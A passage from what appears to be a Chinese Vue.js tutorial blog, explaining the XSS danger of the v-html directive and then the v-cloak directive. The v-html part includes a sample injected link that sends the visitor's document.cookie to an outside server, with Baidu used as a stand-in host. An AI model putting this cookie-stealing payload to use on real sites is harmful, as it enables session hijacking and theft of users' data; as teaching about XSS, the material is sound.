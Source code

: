 ![](https://i-blog.csdnimg.cn/blog_migrate/ab13fb6633aeda9f354afcab9f418545.png)

接下来，我们假设百度（https://www.baidu.com）是我们想要收集其他人 cookie 的所准备的服务器，接下来，我们可以利用如下代码去将他们浏览器中的 cookie 发送到自己的服务器中进行窃取用户信息：

在准备之前，我们需要利用 Cookie Editor 插件来删除测试页面的 cookie，并添加自定义的无意义的 cookie

```
<div id="root">
    <div v-html="str"></div>
</div>
<script>
    new Vue({
        el: '#root',
        data: {
            str: `<a href="javascript:location.href ='http://www.baidu.com?cookie='+document.cookie">兄弟，这里有你想要的资源</a>`
        }
    })
</script>

```

效果如下：

![](https://i-blog.csdnimg.cn/blog_migrate/7b99472cfb1d6bf18bb5543f5e5ede3b.png)

当我们一点击，就会将当前网页的 cookie 传入到设定好的服务器中：

![](https://i-blog.csdnimg.cn/blog_migrate/d35240dca108d331db2decedfba0fe38.png)

但是，浏览器也考虑到 document.cookie 获取 cookie 这些敏感信息存在安全隐患，所以对于某些 cookie ，添加了 `HttpOnly:true`这个属性，我们通过一般的 JS 协议，无法获取设置了这个参数的 cookie

### 4.3 v-cloak

`v-cloak`指令本质是一个特殊属性，Vue 实例创建完毕之后并接管容器后删除 `v-cloak`属性

使用方法：搭配 CSS 解决网速过慢，Vue 实例不能及时渲染的问题

**demo**

```
/* css 样式 */
[v-cloak] {
    display: none;		/* 匹配 v-cloak 属性，使其不显示*/
}

```

```
<div id="root">
    <div v-cloak>{{name}}</div>
</div>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>

```
